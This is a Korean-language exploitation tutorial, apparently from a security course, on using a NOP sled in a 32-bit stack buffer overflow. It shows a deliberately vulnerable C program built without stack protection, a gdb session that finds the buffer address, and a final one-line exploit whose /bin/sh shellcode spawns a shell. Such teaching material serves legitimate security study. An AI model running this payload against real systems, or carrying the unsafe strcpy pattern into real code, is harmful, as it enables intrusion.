 # NOP
* **NOP Sled** : 셸코드의 주소를 정확히 알아내기 힘들 경우 큰 메모리를 확보하여 셸코드 주소의 오차범위를 크게 만들 때 사용한다. x86 아키텍처의 NOP 명령어 바이트코드는 \X90이다.

* 예시
```C
//example1.c
// gcc -o example1 example1.c -fno-stack-protector -z execstack -mpreferred-stack-boundary=2 -m32
#include <stdio.h>
int vuln(char *src) {
  
  char buf[32] = {};
  
  strcpy(buf, src);
  return 0;
}
int main(int argc, char *argv[], char *environ[]) {
  if (argc < 2){
    exit(-1);
  }
  vuln(argv[1]);
  return 0;
}
```
10000바이트의 NOP Sled가 포함된 셸코드를 example1의 argv[1]에 넣은 후 gdb를 이용해 NOP Sled의 중간 지점의 주소를 찾아보도록 하자.
```
$ gdb -q ./example1
Reading symbols from ./example1...(no debugging symbols found)...done.
(gdb) disas vuln
Dump of assembler code for function vuln:
   0x0804843b <+0>:	push   ebp
   0x0804843c <+1>:	mov    ebp,esp
   0x0804843e <+3>:	sub    esp,0x20
   0x08048441 <+6>:	mov    ecx,0x0
   0x08048446 <+11>:	mov    eax,0x20
   0x0804844b <+16>:	and    eax,0xfffffffc
   0x0804844e <+19>:	mov    edx,eax
   0x08048450 <+21>:	mov    eax,0x0
   0x08048455 <+26>:	mov    DWORD PTR [ebp+eax*1-0x20],ecx
   0x08048459 <+30>:	add    eax,0x4
   0x0804845c <+33>:	cmp    eax,edx
   0x0804845e <+35>:	jb     0x8048455 <vuln+26>
   0x08048460 <+37>:	push   DWORD PTR [ebp+0x8]
   0x08048463 <+40>:	lea    eax,[ebp-0x20]
   0x08048466 <+43>:	push   eax
   0x08048467 <+44>:	call   0x8048300 <strcpy@plt>
   0x0804846c <+49>:	add    esp,0x8
   0x0804846f <+52>:	mov    eax,0x0
   0x08048474 <+57>:	leave  
   0x08048475 <+58>:	ret    
End of assembler dump.
(gdb) b *0x08048467
Breakpoint 1 at 0x8048467
(gdb) r python -c 'print "A"*36+"RETN"+"\x90"*100000+"SHELLCODE"'
Starting program: ~/example1 python -c 'print "A"*36+"RETN"+"\x90"*100000+"SHELLCODE"'
Breakpoint 1, 0x08048467 in vuln ()
(gdb) x/2wx $esp
0xfffe4e54:	0xfffe4e5c	0xfffe50a9
(gdb) x/40wx 0xfffe50a9
0xfffe50a9:	0x41414141	0x41414141	0x41414141	0x41414141
0xfffe50b9:	0x41414141	0x41414141	0x41414141	0x41414141
0xfffe50c9:	0x41414141	0x4e544552	0x90909090	0x90909090
0xfffe50d9:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffe50e9:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffe50f9:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffe5109:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffe5119:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffe5129:	0x90909090	0x90909090	0x90909090	0x90909090
0xfffe5139:	0x90909090	0x90909090	0x90909090	0x90909090
(gdb) 
```
vuln 함수에서 strcpy 함수를 호출하는 시점에 breakpoint를 설정해 복사 버퍼인 argv[1]의 주소인 0xfffe50a9를 알아내었다.
다음으로 NOP Sled 중간 지점의 주소(argv[1]+50000)를 계산해 보자.
```
(gdb) p/x 0xfffe50a9 + 50000
$3 = 0xffff13f9
(gdb) 
```
NOP Sled 중간 지점 주소는 0xffff13f9이다. 이 주소를 이용한 새로운 공격 코드는 아래와 같이 구성할 수 있다.
```
"A" * 36 + 0xffff13f9 + "\x90" * 100000 + shellcode
```
만들어진 공격 코드를 이용해 익스플로잇을 시도해 보자.
```
$ ./example1 python -c 'print "A"*36 + "\xf9\x13\xff\xff" + "\x90"*100000 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80"'
$ id
uid=1001(theori) gid=1001(theori) groups=1001(theori)
$ 
```
